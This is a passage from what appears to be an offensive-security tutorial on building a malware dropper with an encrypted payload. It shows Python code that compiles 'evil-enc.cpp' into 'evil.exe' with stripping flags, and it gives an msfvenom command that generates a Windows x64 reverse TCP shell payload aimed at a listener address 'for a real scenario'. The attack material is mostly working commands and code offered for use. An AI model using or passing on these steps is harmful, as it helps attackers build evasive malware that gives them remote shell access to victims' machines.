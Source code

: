 ```python
tmp.close()

## compile
try:
    cmd = "x86_64-w64-mingw32-gcc evil-enc.cpp -o evil.exe -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc >/dev/null 2>&1"
    os.system(cmd)
except:
    print ("error compiling malware template :(")
    sys.exit()
else:
    print (cmd)
    print ("successfully compiled :)")

```

For simplicity, we use `calc.bin` payload:
![payload bin](/assets/images/2/2021-09-04_14-25.png){:class="img-responsive"}

but in real scenario you can use something like:
```cmd
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.9.1.6 LPORT=4444 -f raw -o hack.bin
```

run python script:
```cmd
python3 evil_enc.py
```
![python encrypt](/assets/images/2/2021-09-04_14-40.png){:class="img-responsive"}
